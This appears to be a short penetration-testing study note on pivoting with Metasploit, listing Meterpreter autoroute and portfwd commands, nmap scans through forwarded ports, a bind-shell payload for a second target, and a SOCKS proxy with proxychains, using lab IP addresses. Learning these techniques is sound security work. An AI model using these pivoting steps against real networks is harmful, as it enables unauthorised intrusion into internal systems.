 # Pivoting

## Port Forwarding

- redirecting traffic from port on target_sys_2 to local_port of attacker_sys

## Meterpreter Commands

- ipconfig : find subnet that target_sys_1 is a part of
  ![pivot](./images/pivot-01.png)
- run autoroute -s <subnet> : adds routes
- run autoroute -p : displays active routing table
  ![pivot](./images/pivot-02.png)
- run a tcp portscan on remotehost usong msf module. forward remote port to local port and run nmap scan on local port.
- portfwd add -l 1234 -p 80 -r <target_sys_2_ip>
- portfwd list
  ![pivot](./images/pivot-03.png)

- use msf module portscan/tcp to scan victim 2
- use nmap after portfwd is setup to run -sV on local port on localhost - nmap -sV -sS -p 1234 localhost
- since target_sys_2 does not have a route back to attacker_sys, use bind_shell payload
  ![pivot](./images/pivot-04.png)
  ![pivot](./images/pivot-05.png)
￼

- here, 10.5.20.201 is our local ip and 10.5.25.138 is on remote network inaccessible from attacker machine


**ANOTHER WAY**

- once you have access to root meterpreter session
- bg meterpreter session and run the cmd - "route add 192.108.156.0/24 1"
- syntax is - "route add <cidr> <meterpreter sessionid>"
- use auxiliary/server/socks_proxy
  - set VERSION 4a
  - set SRVPORT 9050
  - run -j
- proxychains nmap -sT -P0 192.108.156.3
  ![pivot](./images/pivot-06.png)
  ![pivot](./images/pivot-07.png)
  ![pivot](./images/pivot-08.png)
  ![pivot](./images/pivot-09.png)
  ￼
  ￼
  ￼



